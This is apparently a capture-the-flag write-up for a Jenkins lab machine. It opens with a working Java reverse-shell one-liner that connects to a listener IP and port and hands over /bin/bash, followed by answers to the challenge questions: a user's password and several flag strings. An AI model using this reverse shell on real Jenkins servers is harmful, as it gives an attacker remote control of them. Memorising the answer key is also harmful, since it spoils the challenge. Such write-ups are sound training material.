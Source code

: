 January 05, 2023

-------------------------------

```
String host="10.9.135.209";
int port=6996;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

1. What is the default port for Jenkins?
	- 8080

2. What is the password of the user tracy?
	- 13_1n_33

3. What's the root flag?
	- ezRo0tW1thoutDiD

4. What is the error message when you login as tracy again and try sudo -l after its removal from the sudoers group?
	- Sorry, user tracy may not run sudo on jenkins.

5. What's the SSH flag?
	- Ne3d2SecureTh1sSecureSh31l

6. What's the Jenkins flag?
	- FullTrust_has_n0_Place1nS3cur1ty
